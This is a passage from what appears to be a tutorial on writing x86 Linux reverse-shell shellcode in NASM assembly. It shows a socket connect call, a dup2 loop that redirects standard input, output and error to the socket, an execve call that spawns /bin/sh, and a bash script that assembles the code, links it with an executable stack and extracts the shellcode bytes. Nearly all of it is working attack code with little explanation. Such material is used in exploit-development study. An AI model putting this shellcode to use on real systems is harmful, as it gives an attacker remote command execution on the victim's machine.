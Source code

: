 ```c
	push ecx        ; sockaddr structure
	push edi        ; socketfd (file descriptors)
	mov ecx, esp    ; ecx holds the args array for the syscall
	int 0x80        ; init syscall
```

## Duplicate the file descriptors using dup2

```c
; Redirect the file descriptors using dup2

	pop ebx		; moving the file descriptor from the stack
	xor eax, eax	; zeroing out the eax register
	xor ecx, ecx    ; clearing ecx before using the loop
	mov cl, 0x2     ; setting the loop counter

looper:
       mov al, 0x3F    ; inserting the hex SYS_DUP2 syscall
       int 0x80        ; syscall
       dec ecx         ; the argument for file descriptor(2-stderr,1-stdout,0-stdin)
       jns looper
```
## Execute /bin/sh via execve
```c
; Execute /bin/sh with execve

       xor ebx, ebx
       mul ebx

       ; PUSH //bin/sh (8 bytes)
	push edx	; push nullbyte to the stack
	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp
	mov ecx, edx

	mov al, 0xB     ; inserting the hex for SYS_EXECVE Syscall
	int 0x80
```
## Assembling and linking

Now, we have completed writing the reverse_shell.nasm file.

I will Assemble and link it with the following complie.sh bash script:

```c
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'

echo '[+] Printing the Shellcode:'

objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
